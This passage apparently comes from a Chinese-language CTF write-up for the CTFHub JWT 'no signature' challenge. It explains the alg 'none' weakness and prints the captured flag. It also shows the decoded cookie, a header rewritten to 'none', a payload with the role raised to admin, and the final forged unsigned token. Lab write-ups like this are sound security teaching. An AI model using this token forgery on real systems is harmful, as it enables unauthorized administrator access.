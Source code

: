 ![image-20241026150303406](https://gitee.com/bx33661/image/raw/master/path/image-20241026150303406.png)

得到flag

```
ctfhub{67249a09d950fcc2bdd2f441}
```



### 无签名

根据了解最初jwt是为了调试，添加了空（None）算法,这样的话我们的JWT就可以随意通过服务器的验证

```python
{
  "alg": "None",
  "typ": "JWT"
}
```

缺少签名算法，jwt保证信息不被篡改的功能就失效了



> 题目提示：
>
> 一些JWT库也支持none算法，即不使用签名算法。当alg字段为空时，后端将不执行签名验证。尝试找到 flag。

进入页面，注册admin/123456,查看cookie

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiIxMjM0NTYiLCJyb2xlIjoiZ3Vlc3QifQ.MaphZVk25q4stXxAmEgXmKCW7aUo3jDJtgv9DwahLwc

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9
eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiIxMjM0NTYiLCJyb2xlIjoiZ3Vlc3QifQ
MaphZVk25q4stXxAmEgXmKCW7aUo3jDJtgv9DwahLwc
```

![image-20240827164720451](https://gitee.com/bx33661/image/raw/master/path/image-20240827164720451.png)

修改加密算法为`none`

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=
```

修改权限为`admin`

```
eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiIxMjMiLCJyb2xlIjoiYWRtaW4ifQ
```

最后的构造：

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiIxMjMiLCJyb2xlIjoiYWRtaW4ifQ.
```

